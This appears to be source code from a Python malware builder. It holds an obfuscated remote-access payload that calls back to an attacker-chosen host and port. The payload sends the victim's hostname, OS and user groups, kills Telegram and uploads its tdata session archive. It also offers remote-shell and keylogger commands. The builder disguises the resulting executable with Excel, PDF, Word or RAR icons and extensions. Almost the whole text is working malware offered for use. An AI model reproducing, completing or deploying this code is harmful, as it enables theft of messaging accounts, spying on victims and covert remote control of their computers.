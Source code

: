 b9ca76e40bd85486be59b0cdbe8de29a:\r\n\t\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(b9ca76e40bd85486be59b0cdbe8de29a)\r\n\t\tb9ca76e40bd85486be59b0cdbe8de29a=bfa14cdd754f91cc6554c9e71929cce7.read(1024)\r\n\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(b9ca76e40bd85486be59b0cdbe8de29a+\'pishmarg\')\r\n\tbfa14cdd754f91cc6554c9e71929cce7.close()\r\n\tpopen(\'del /Q C:\\\\Users\\\\\'+bacb3a53bbc6cb5e6dc33b8894fb9273+\'\\\\AppData\\\\Roaming\\\\tdata.tar.bz2\')\r\ndef b99567fc82b671ea4bbe6c1f8864519b():\r\n\tif \'Telegram.exe\' in popen(\'tasklist\').read():\r\n\t\tbe366bd1bb675bd57058fd4664205d2a=popen(\'taskkill /F /IM Telegram.exe /T\').read()\r\n\t\tdel be366bd1bb675bd57058fd4664205d2a\r\ndef b4fe3e64ea8bb746756d4a7dea73d285(cf1e8c14e54505f60aa10ceb8d5d8ab3):\r\n\tb897acf49c7c1ea9f76efe59187aab46=gethostname()\r\n\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(b897acf49c7c1ea9f76efe59187aab46)\r\ndef bd6137dcd51ff11ce87f4b447b7514f3(cf1e8c14e54505f60aa10ceb8d5d8ab3):\r\n\tae3f135dfd5660fe4d35e91db1286117=popen(\'systeminfo | findstr /B /C:\\"OS Name"\').read()\r\n\tb4e5375fba9e1b1181d3bde6bdb98db9=ae3f135dfd5660fe4d35e91db1286117.replace(\'OS Name:                   \',\'\').replace(\'\\n\',\'\')\r\n\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(b4e5375fba9e1b1181d3bde6bdb98db9)\r\ndef db63e160e64b2c4cc5d80deac01c8989(cf1e8c14e54505f60aa10ceb8d5d8ab3):\r\n\tbc65c2abec141778ffaa7248f3e87=popen(\'net localgroup users && net localgroup Administrators\').read()\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'Alias name     users\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'Comment        Users are prevented from making accidental or intentional system-wide changes and can run most applications\\n\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'Members\\n\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'-------------------------------------------------------------------------------\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'NT AUTHORITY\\\\Authenticated Users\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'NT AUTHORITY\\\\INTERACTIVE\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'The command completed successfully.\\n\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'Alias name     Administrators\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'Comment        Administrators have complete and unrestricted access to the computer/domain\\n\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.replace(\'Administrator\\n\',\'\')\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87.split(\'\\n\')\r\n\tdel bc65c2abec141778ffaa7248f3e87[-1]\r\n\tbc65c2abec141778ffaa7248f3e87=str(list(set(bc65c2abec141778ffaa7248f3e87)))\r\n\tbc65c2abec141778ffaa7248f3e87=bc65c2abec141778ffaa7248f3e87[2:-2]\r\n\tcf1e8c14e54505f60aa10ceb8d5d8ab3.send(bc65c2abec141778ffaa7248f3e87)\r\nb4fe3e64ea8bb746756d4a7dea73d285(b3c7cbace395d8b182dbb7ae2c3bfb34)\r\nbd6137dcd51ff11ce87f4b447b7514f3(b3c7cbace395d8b182dbb7ae2c3bfb34)\r\ndb63e160e64b2c4cc5d80deac01c8989(b3c7cbace395d8b182dbb7ae2c3bfb34)\r\nb0723c29c59c0fed25a7324a0ee4096b=0\r\nwhile True:\r\n\tee11cbb19052e40b07aac0ca060c23ee=b3c7cbace395d8b182dbb7ae2c3bfb34.recv(1024)\r\n\tif path.isdir(\'C:\\\\Users\\\\\'+ee11cbb19052e40b07aac0ca060c23ee+\'\\\\AppData\\\\Roaming\\\\Telegram Desktop\\\\tdata\')==True:\r\n\t\tb0723c29c59c0fed25a7324a0ee4096b=1\r\n\t\tb3c7cbace395d8b182dbb7ae2c3bfb34.send(\'yes\')\r\n\t\tbreak\r\n\telif ee11cbb19052e40b07aac0ca060c23ee==\'break\':\r\n\t\tbreak \r\n\telse:\r\n\t\tb3c7cbace395d8b182dbb7ae2c3bfb34.send(\'not\')\r\nif b0723c29c59c0fed25a7324a0ee4096b==1:\r\n\tb99567fc82b671ea4bbe6c1f8864519b()\r\n\tb9a960b9fa32b73b073cbeeb8778bc07(ee11cbb19052e40b07aac0ca060c23ee,b3c7cbace395d8b182dbb7ae2c3bfb34)\r\nwhile True:\r\n\tb20931ee7fdb6ce1d139ad1b6df35ae4=b3c7cbace395d8b182dbb7ae2c3bfb34.recv(5)\r\n\tif b20931ee7fdb6ce1d139ad1b6df35ae4==\'close\':\r\n\t\texit()\r\n\telif b20931ee7fdb6ce1d139ad1b6df35ae4==\'shell\':\r\n\t\tbedc6d1c31802fb5f8093a2a0fbe7f1d(b3c7cbace395d8b182dbb7ae2c3bfb34)\r\n\telif b20931ee7fdb6ce1d139ad1b6df35ae4==\'keylo\':\r\n\t\tccc744da9691d16696acdc7648b21c89=b3c7cbace395d8b182dbb7ae2c3bfb34.recv(1)\r\n\t\tif ccc744da9691d16696acdc7648b21c89==\'y\':\r\n\t\t\tcefda4932d283cb7f67b9f73fb6e0f14()\r\n'.format(lhost,lport)
        icon_path=raw_input(Fore.GREEN+'Enter Path Icon(Just *.ico)-> ')
        format_outf=''
        licen_ico=False
        if icon_path=='':
            key_icon={'0':['icons\\excel.ico','.xlsx']
                      ,'1':['icons\\pdf.ico','.pdf']
                      ,'2':['icons\\powerpoint.ico','.pptx']
                      ,'3':['icons\\rar.ico','.rar']
                      ,'4':['icons\\word.ico','.docx']}
            print (Fore.WHITE+"\nID\tName")
            print (Fore.WHITE+"===\t====")
            for sii in range(0,5):
                print ("{}[{}]\t{}{}".format(Fore.YELLOW,sii,Fore.CYAN,key_icon[str(sii)][0].replace('icons\\','')))
            print
            icon_select=raw_input(Fore.GREEN+'SELECT> ')
            if icon_select in key_icon:
                icon_path=key_icon[icon_select][0]